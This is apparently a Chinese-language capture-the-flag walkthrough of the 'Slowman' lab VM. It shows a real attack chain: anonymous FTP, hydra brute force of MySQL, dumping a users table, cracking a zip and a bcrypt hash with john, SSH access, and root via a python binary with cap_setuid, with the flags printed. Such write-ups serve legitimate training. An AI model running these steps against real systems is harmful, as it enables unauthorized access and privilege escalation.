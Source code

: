 # Slowman

:::note

[Linux VM] [Tested on VirtualBox] created by || Pylon

⏲️ Release Date // 2023-12-04

✔️ MD5 // 6a4ad8842487288bd6d076fb6e19d3ce

☠ Root // 53

💀 User // 50

📝Notes //
Enjoy it :)

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.104
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.104
Host is up (0.00048s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE  SERVICE  VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp      vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp   open   ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 02:d6:5e:01:45:5b:8d:2d:f9:cb:0b:df:45:67:04:22 (ECDSA)
|_  256 f9:ce:4a:75:07:d0:05:1d:fb:a7:a7:69:39:1b:08:10 (ED25519)
80/tcp   open   http     Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Fastgym
3306/tcp open   mysql    MySQL 8.0.35-0ubuntu0.22.04.1
| ssl-cert: Subject: commonName=MySQL_Server_8.0.35_Auto_Generated_Server_Certificate
| Not valid before: 2023-11-22T19:44:52
|_Not valid after:  2033-11-19T19:44:52
| mysql-info:
|   Protocol: 10
|   Version: 8.0.35-0ubuntu0.22.04.1
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: FoundRows, ConnectWithDatabase, DontAllowDatabaseTableColumn, SupportsTransactions, LongPassword, IgnoreSigpipes, Speaks41ProtocolOld, Support41Auth, IgnoreSpaceBeforeParenthesis, InteractiveClient, LongColumnFlag, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, ODBCClient, SupportsLoadDataLocal, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: I-h4^y\x01\x11w8~FvG\x02cPh7F
|_  Auth Plugin Name: caching_sha2_password
|_ssl-date: TLS randomness does not represent time
```

## ftp Anonymous

尝试匿名登录，列出共享目录

```plaintext
ftp> ls -lh
150 Here comes the directory listing.
-rw-r--r--    1 0        0              12 Nov 22 21:46 allowedusersmysql.txt
226 Directory send OK.
```

查看文件内容

```plaintext title="allowedusersmysql.txt"
trainerjeff
```

根据文件名猜测，是 mysql 允许连接的用户名

## mysql 远程连接

尝试使用 hydra 爆破用户密码

```plaintext
[3306][mysql] host: 192.168.56.104   login: trainerjeff   password: soccer1
```

使用爆破出来的凭据进行连接数据库，查看基本信息

```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| trainers_db        |
+--------------------+

MySQL [trainers_db]> show tables;
+-----------------------+
| Tables_in_trainers_db |
+-----------------------+
| users                 |
+-----------------------+

MySQL [trainers_db]> select * from users;
+----+-----------------+-------------------------------+
| id | user            | password                      |
+----+-----------------+-------------------------------+
|  1 | gonzalo         | tH1sS2stH3g0nz4l0pAsSWW0rDD!! |
|  2 | $SECRETLOGINURL | /secretLOGIN/login.html       |
+----+-----------------+-------------------------------+
```

## web 服务

尝试进行目录爆破

```plaintext
[12:18:58] 200 -    5KB - /contact.html
[12:19:05] 200 -    5KB - /images/
[12:19:05] 200 -   16KB - /index.html
[12:19:06] 200 -    1KB - /js/
```

经过简单判断，都是静态资源，没有敏感文件

尝试使用数据库中得到的信息登陆后台，得到

```plaintext
http://192.168.56.104/secretgym/serverSHARE/credentials.zip
```

下载下来进行分析，发现带有密码保护，尝试破解

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (credentials.zip/passwords.txt)
1g 0:00:00:00 DONE (2024-02-12 12:49) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

得到以下信息

```plaintext title="credentials.zip/passwords.txt"
----------
$USERS: trainerjean

$PASSWORD: $2y$10$DBFBehmbO6ktnyGyAtQZNeV/kiNAE.Y3He8cJsvpRxIFEhRAUe1kq
----------
```

将得到的哈希值继续进行爆破

```plaintext
┌─[randark@parrot]─[~/tmp]
└──╼ $john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tweety1          (?)
```

## User - trainerjean

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs trainerjean@192.168.56.104
[12:53:41] Welcome to pwncat 🐈!
Password: *******
[12:53:48] 192.168.56.104:22: registered new host w/ db
(local) pwncat$ back
(remote) trainerjean@slowman:/home/trainerjean$ whoami
trainerjean
```

### flag - user

```bash
(remote) trainerjean@slowman:/home/trainerjean$ cat user.txt
YOU9et7HEpA$SwordofS10wMan!!
```

### 尝试提权

```plaintext title="getcap -r / 2>/dev/null"
/snap/core20/2015/usr/bin/ping cap_net_raw=ep
/snap/core20/1974/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
```

发现 python 可以利用 cap_setuid 实现提权

```bash
(remote) trainerjean@slowman:/home/trainerjean$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
[](remote)[] []root@slowman[]:[]/home/trainerjean[]$ whoami
root
```

## User - root

### flag - root

```bash
[](remote)[] []root@slowman[]:[]/root[]$ cat root.txt
Y0UGE23t7hE515roo7664pa5$WoRDOFSlowmaN!!
```
